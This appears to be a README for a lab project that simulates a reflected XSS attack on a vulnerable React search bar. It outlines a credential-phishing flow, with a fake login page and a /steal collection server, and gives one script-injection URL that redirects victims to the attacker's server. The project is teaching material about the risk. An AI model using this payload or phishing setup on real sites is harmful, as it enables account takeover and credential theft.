 💥 Reflected XSS Attack Simulation : 
This project demonstrates a Reflected Cross-Site Scripting (XSS) attack using a vulnerable search feature. It simulates how an attacker can craft a malicious URL containing JavaScript code to trick victims into giving up sensitive information like login credentials — even though the data isn't stored on the server.

📌 Objective
Simulate a Reflected XSS Attack using a search bar vulnerable to unsanitized user input.

Capture stolen credentials using a fake login form hosted on a separate attacker server.

Show how attackers can use malicious URLs to instantly execute JavaScript in the victim’s browser.

Demonstrate the risks of insecure frontend rendering (dangerouslySetInnerHTML in React).

🧪 Attack Flow – Reflected XSS (Credential Theft)
Reconnaissance
The attacker discovers a search bar that reflects user input into the page without sanitization.

Fake Server Setup
The attacker runs a background server (xss-fake-server) to collect stolen data via a route like /steal.

Fake Login Form Creation
A cloned version of the platform’s real login page is hosted as fake-login-page.html to fool users.

Crafting Malicious URLs
The attacker creates a URL like:
http://localhost:5000/search?q=<script>window.location='http://localhost:3001'</script>
Phishing in Action
Victims are tricked into clicking the malicious URL (via email, chat, QR codes, or comments).

The page reflects the search query and executes the JavaScript.

Victims see a legitimate-looking login form and unknowingly enter their credentials.

Credential Theft
The form sends credentials to the attacker's server using a hidden JavaScript request.
They're saved in stolen_credentials.txt.

Post-Exploitation
The attacker now:

Gains full access to the victim’s account.

Can impersonate users, escalate privileges, or steal data.
